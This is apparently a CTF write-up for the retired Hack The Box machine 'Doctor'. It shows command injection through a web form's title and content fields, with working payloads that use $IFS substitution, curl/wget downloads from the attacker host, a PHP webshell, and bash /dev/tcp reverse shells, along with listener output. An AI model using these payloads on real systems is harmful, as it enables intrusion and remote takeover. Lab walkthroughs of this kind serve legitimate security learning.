

# Alternate way via shell command injection

I learned this from writeups after the box was retired. Injecting your IP as http://10.10.14.78/test into the Title and Content of the message box would elicit this response on a HTTP listener

```text
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 12:45:01] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:01] "GET /test HTTP/1.1" 404 -

root@kali:~/CTF/HTB/Doctor# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 37042
GET /test HTTP/1.1
Host: 10.10.14.78
User-Agent: curl/7.68.0
Accept: */*
```

If we injected `http://10.10.14.78/$(id)` instead , we can see that the shell command in between brackets gets evaluated.

```text
10.10.10.209 - - [13/Feb/2021 12:45:45] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:45] "GET /uid=1001(web) HTTP/1.1" 404 -
```

Now space as a character here won't work. Instead we have to use $IFS which is a typical substitution for space and single quotes for arguments. With this we can ping ourselves with this payload

```text
http://10.10.14.78/$(ping$IFS-c$IFS'2'$IFS'10.10.14.78')
```

and we see this with `tcpdump`

```text
root@kali:~/CTF/HTB/Doctor# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:06:13.865334 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 1, length 64
13:06:13.865355 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 1, length 64
13:06:14.867325 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 2, length 64
13:06:14.867349 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 2, length 64
```

We can try to upload a file to the default Linux webroot dir, /var/ww/html with

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/test'$IFS'-o'$IFS'/var/www/html/test')
```

Visiting http://10.10.10.209/test in the browser shows

> Testing

## Getting a shell

There are two ways to get a shell here, but only one way allows you to get root eventually. I'll cover the limited way first.

### Shell as www-data

 Since we can write to /var/www/html we can upload a PHP webshell. First to be cautious I uploaded phpinfo() to check whether `system()` was disabled

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/phpinfo.php'$IFS'-o'$IFS'/var/www/html/phpinfo.php')

root@kali:~/CTF/HTB/Doctor# cat phpinfo.php
<?php phpinfo(); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET /phpinfo.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET / HTTP/1.1" 200 -
```

Then visiting http://10.10.10.209/phpinfo.php we check disable_functions and see that system() is not included.



Then we can upload PHP webshell that uses system()

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/shell.php'$IFS'-o'$IFS'/var/www/html/shell.php')

root@kali:~/CTF/HTB/Doctor# cat shell.php
<?php echo Testing; system($_REQUEST ["cmd"]); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET /shell.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET / HTTP/1.1" 200 -
```

Then we can check http://10.10.10.209/shell.php gives **Testing**. And do a POST to get a reverse shell

```text
POST /shell.php HTTP/1.1
Host: 10.10.10.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.78/443 0>&1'
```

And we see

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35320
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@doctor:/var/www/html$
```

Unfortunately no way to escalate since www-data not in adm group and we can't read Web access logs to discover creds

```text
www-data@doctor /home/web $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nor can we plant a Webshell in the Webroot dir for user web to trigger it

```text
www-data@doctor /home/web/blog$ ls -lah
total 16K
drwxr-xr-x  3 web web 4,0K Sep 22 11:29 .
drwxr-xr-x  6 web web 4,0K Feb 13 06:19 ..
drwxr--r-- 10 web web 4,0K Feb 13 07:00 flaskblog
-rwxr--r--  1 web web  106 Aug 18 12:56 run.py
www-data@doctor /home/web/blog$ cd flaskblog/
bash: cd: flaskblog/: Permission denied
```

### Shell as Web

Alternately we can upload a Bash reverse shell script

```text
root@kali:~/CTF/HTB/Doctor# cat shell.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.78/443 0>&1"
```

This can downloaded on the target to either

1. /dev/shm
2. /var/www/html
3. /var/tmp
4. /tmp

All should work but the first two are preferred because unlike the temp directories they're not partitioned by user.

Then we can trigger them with

```text
http://10.10.14.78/$(wget$IFS'http://10.10.14.78/shell.sh'$IFS'-O'$IFS'/dev/shm/shell.sh')
http://10.10.14.78/$(bash$IFS'/dev/shm/shell.sh')
```

To get a shell as web

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35614
bash: cannot set terminal process group (849): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

